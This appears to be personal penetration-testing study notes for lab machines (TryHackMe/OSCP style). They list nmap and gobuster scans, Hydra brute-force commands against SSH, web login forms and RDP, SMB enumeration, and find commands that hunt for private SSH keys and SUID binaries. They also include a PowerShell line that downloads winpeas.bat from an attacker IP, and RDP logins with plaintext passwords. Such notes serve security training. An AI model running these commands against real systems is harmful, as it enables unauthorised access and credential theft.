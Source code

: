 Nmap scan
nmap -sV -sC -o nmap 10.10.85.80

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/


nmap vulscan
└─$ └─$ sudo nmap -sV --script vuln 10.10.100.195




Gobuster 
gobuster dir -e -u 10.10.243.102 -x php,txt,cgi,css,py,html -w /usr/share/dirb/wordlists/common.txt

gobuster dir -u 10.10.81.56 -w directory-list-2.3-medium.txt

wildcard related error
gobuster dir -e -u http://10.10.20.239/api/site-log.php -x php,txt,cgi,css,py,html -w /usr/share/dirb/wordlists/common.txt -s "204,301,302,307,401,403"


Hydra Brute force
https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/
##SSH
kali@kali:~/oscptraining/tryhackme/brooklyn99$ hydra 10.10.216.12 ssh -l jake -P /usr/share/wordlists/rockyou.txt
##HTTP-POST
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
go to inspect element > network > edit and send the post request, copy referer:request body:failed message

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.246.210 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=kcSMO%2FXF1GCTeqt5uRKPoYMbob7ILPmcJ8MRMGNpv2FneCHIfEXPYOSXqtxv7DNoE8I3ocTwXLS9nE%2BFsrLJiHyETHd061sGnCLUvKIZ98Tw51yIvJPBPwCnvZkSPBN1IGUjaSXna2xuK3zLhKzuJMYEMGp%2BJaP2%2FnW3KLtiHdSkJNaf&__EVENTVALIDATION=An1jltDUr%2FrJuqK%2FrWVjD8jVjSf5VMWKvH%2BRo5qQE9Qj4eGYCBTjNSWsFE5%2FEkHkpfIodOJNXbmfoUTYDVGixWMGR8Uh4t4o5X9Rt16ieHoB4SXqj2wNQW3KckOfeclwpBQJbmdFBCPS%2FdzwfeBzvm1jPbMdBiH2IFcI0iE0FX3uIkeq&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed"

Brute force against a protocol of your choice
hydra -P <wordlist> -v <ip> <protocol>

Attack a Windows Remote Desktop with a password list.
hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>

Number of parallel connections per target  -t 16
hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.30.60 ssh




SMB Enum (port 445, 139)
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.117.251
smbclient ///10.10.117.251/Users

smbclient //10.10.223.79/anonymous -u anonymous 

Our vulnerable machine in this example has a directory called backups containing an SSH key that we can use for authentication. This was found via: find / -name id_rsa 2> /dev/null....Let's break this down:

We're using find to search the volume, by specifying the root (/) to search for files named "id_rsa" which is the name for private SSH keys, and then using 2> /dev/null to only show matches to us.


search the machine for executables with the SUID permission set: find / -perm -u=s -type f 2>/dev/


for remote desktop
xfreerdp /u:littlehelper /p:iLove5now! /v:10.10.247.111

PowerShell Invoke-WebRequest


get winpeas in

powershell Invoke-WebRequest -Uri http://10.8.102.117:80/oscptraining/winpeas.bat -Outfile 'C:\Windows\Temp\winpeas.bat'

     


kali@kali:~/oscptraining$ xfreerdp /u:administrator /p:4q6XvFES7Fdxs /v:10.10.4.115





